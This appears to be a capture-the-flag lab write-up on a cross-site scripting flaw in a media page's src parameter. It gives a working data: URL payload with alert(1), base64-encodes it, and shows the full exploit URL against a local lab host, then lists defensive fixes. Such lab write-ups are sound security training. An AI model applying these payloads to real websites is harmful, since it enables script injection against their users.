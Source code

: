 # Cross-Site scripting (XSS) Media vulnerability report

### Location: ***http://192.168.56.3/?page=media&src=nsa***

## Description:

This XSS vulnerability  found in a media handling system.

The application uses an `<object>` tag to display media content. When inspecting the source code of the page, we can see html:

```
 <object data="http://192.168.56.3/images/nsa_prism.jpg"></object>
```

However, this [**data**](https://developer.mozilla.org/en-US/docs/Web/URI/Schemes/data) attribute can be modified directly from the client side, allowing for potential exploitation.

The `data:` scheme allows embedding small files inline in documents. However, it poses significant security risks when used improperly.

We can _modify_ the **src** parameter in the URL:

***http://192.168.56.3/?page=media&src=hello***

This results in the following HTML being rendered:

```
<object data="hello"></object>
```

_Craft_ a simple XSS payload using a `data:` URL:

```
data:text/html,<script>alert(1)</script>
```
in the URL parameter id.

But we need to _encode_ the entire `data:` text in _Base64_. We can make it in bash terminal directly with this command:

echo -n `"<script>alert(1)</script>"`|base64

It gives us:

_PHNjcmlwdD5hbGVydCgxKTwvc2NyaXB0Pg==_

_Visiting_ this URL will execute the XSS payload and we get a **Flag**!

***http://192.168.56.3/?page=media&src=data:text/html;base64,PHNjcmlwdD5hbGVydCgxKTwvc2NyaXB0Pg==***

## Recommendations:

1. Implement proper input _validation_ and _sanitization_ for the `src` parameter.

2. Use [_Content Security Policy (CSP)_](https://portswigger.net/web-security/cross-site-scripting/content-security-policy) headers to restrict executable content.

3. Avoid using `data:` URLs for untrusted content.